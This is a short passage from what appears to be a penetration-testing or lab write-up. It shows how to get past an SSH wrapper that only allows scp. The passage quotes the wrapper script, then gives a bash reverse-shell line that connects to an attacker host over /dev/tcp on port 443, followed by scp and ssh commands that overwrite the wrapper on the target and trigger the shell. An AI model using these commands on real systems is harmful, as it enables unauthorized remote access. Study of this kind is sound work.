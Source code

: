 #### Overwrite files on target (sshd_config)

Source code retrieved from target:

```
#!/bin/bash

case $SSH_ORIGINAL_COMMAND in
 'scp'*)
    $SSH_ORIGINAL_COMMAND
    ;;
 *)
    echo "ACCESS DENIED."
    scp
    ;;
esac
```

Notice "scp" is just a system command, so let's replace that line with a reverse shell:

```bash - kali
bash -i >& /dev/tcp/$KALI/443 0>&1
```

```bash - kali
scp -i id_rsa ../scp_wrapper.sh $USER@$TARGET:/home/$USER
```

```bash - kali
ssh -i id_rsa $USER@$TARGET
```
